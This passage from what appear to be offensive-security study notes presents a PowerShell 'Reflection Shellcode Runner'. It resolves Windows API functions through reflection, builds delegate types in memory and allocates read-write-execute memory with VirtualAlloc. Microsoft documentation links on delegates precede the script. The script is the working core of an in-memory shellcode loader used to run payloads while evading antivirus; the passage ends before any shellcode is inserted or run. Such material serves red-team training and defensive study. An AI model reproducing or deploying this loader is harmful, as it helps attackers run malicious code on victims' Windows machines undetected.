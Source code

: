 12. We can now execute this to pop a simple Hello World

&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/delegates/#:~:text=Delegates%20%28C%23%20Programming%20Guide%29%201%20Delegates%20Overview.%20Delegates,Language%20Specification.%20...%204%20Featured%20Book%20Chapters.%20?msclkid=b8062dedbb6411eca1f560986156741b
> - https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.getdelegateforfunctionpointer?view=netframework-4.8
> - https://docs.microsoft.com/en-us/dotnet/api/system.reflection.emit.typebuilder.definemethod?view=netframework-4.8
> - https://docs.microsoft.com/en-us/dotnet/api/system.reflection.emit.typebuilder.createtype?view=netframework-4.8

&nbsp;

### Reflection Shellcode Runner in Powershell

Powershell Script :

    function LookupFunc {
        Param ($moduleName, $functionName)
        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
        $tmp=@()
        $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
    }

    function getDelegateType {
        Param (
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
            [Parameter(Position = 1)] [Type] $delType = [Void]
        )

        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])

        $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')

        $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')

        return $type.CreateType()
    }

    $lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
